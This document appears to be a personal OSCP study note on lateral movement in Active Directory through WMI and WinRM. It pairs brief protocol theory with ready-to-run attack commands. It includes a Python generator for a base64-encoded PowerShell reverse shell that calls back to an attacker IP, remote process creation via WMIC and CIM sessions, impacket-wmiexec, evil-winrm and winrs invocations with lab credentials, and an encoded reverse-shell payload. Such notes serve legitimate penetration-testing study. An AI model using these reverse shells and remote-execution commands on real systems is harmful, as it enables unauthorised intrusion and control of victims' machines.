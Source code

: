 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/1-wmi-and-win-rm/","updated":"2024-01-05T11:36:56.939+01:00"}
---
```


--------
# WMI:
### WMI Theory
- Windows Management Instrumentation
- Capable of creating processes via the _Create_ mtehod from the Win32_process class.
- Communicates through Remote Procedure Calls (RPC) on port 135 for remote access, and higher ports (19152-65535) for session data.
- All spawned processes are run in session 0
- If ReturnValue == 0, the process has succeeded!

### WMI Remote Process with WMIC
- WMIC utility was recently deprecated, but is used to create processes on a remote target using an Administrator user.
```
wmic /node:<ip> /user:<adminuser> /password:<password> process call create "<process-to-create>"
```

### WMI Reverse Shell with Powershell
1. Generate reverse shell using python script:
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.166",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
````
2. Set up Powershell script and set $username, $password and $command:
```
$username = '<adminuser>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName <ip> -Credential $credential -SessionOption $Options 
$command = '<generated-reverse-shell-payload>';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

$session = New-Cimsession -ComputerName 172.16.189.10 -Credential $credential -SessionOption $Options 
```
3. Start netcat listener, encode and win!

### WMI Remote Shell with Impacket:
```
sudo /usr/bin/impacket-wmiexec joe:Flowers1@172.16.189.11
```

---------------
# WinRM:
### WinRM Theory
- Alternative method to WMI for remote management
- Microsoft version of the WS-Management protocol
- Exchanges XML messages over HTTP (port 5985) and HTTPS (port 5986)
- Implemented in numerous built-in utilities such as winrs
### WinRM Remote Shell with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -p "qwertqwertqwert123\!\!"
```
- Or -H followed by NT-hash!!
### WinRM Remote Code Execution with WinRS
- Only works for domain users who are Administrators or part of "Remote Management Users".
```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

### WinRM Reverse Shell with WinRS
```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

### WinRM Remote Shell with Powershell:
1. Create session:
```
$username = '<user>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <target-ip> -Credential $credential
```
2. Enter session:
```
Enter-PSSession 1
```

